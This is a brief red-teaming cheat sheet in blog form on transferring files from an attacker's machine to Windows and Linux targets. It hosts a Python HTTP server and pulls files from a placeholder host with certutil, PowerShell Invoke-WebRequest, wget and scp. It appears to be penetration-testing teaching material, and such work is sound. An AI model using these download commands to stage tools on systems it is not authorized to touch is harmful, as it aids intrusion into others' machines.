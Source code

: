 ```yaml
---
title: "File Transfer"
collection: posts
type: "Info"
permalink: /posts/2023-spring-teaching-1
venue: "Red Teaming"
date: 2023-02-13
location: "City, Country"
---
```


## Description :
File transfer between Linux and Windows.

---

Before talking about how to transfer a file,let's start by how you can host a server on your attacking machine.

## Using Python


```bash
python3 -m  http.server  PORT_NUMBER
```
  
  

Now let's see how you can tranfer files on windows and linux

  

## Windows:

**cmd :**

```bash

certutil.exe -urlcache -f http://X.X.X.X:PORT/FILE_NAME FILE_NAME

```

**powershell :**

```powershell
powershell -c "Invoke-WebRequest -Uri 'http://X.X.X.X:PORT/FILE_NAME' -OutFile 'PATH\TO\FILE'"
```

## Linux

```bash
wget http://X.X.X.X/FILE_NAME  FILE_NAME
```
--- 

There is another way to transfer files using **scp** command where you don't need to host a server on your machine but you must have the credentials of the machine that you will transfer the file to.

```bash
scp FILE_NAME USER_NAME@X.X.X.X:/PATH/TO/FILE
```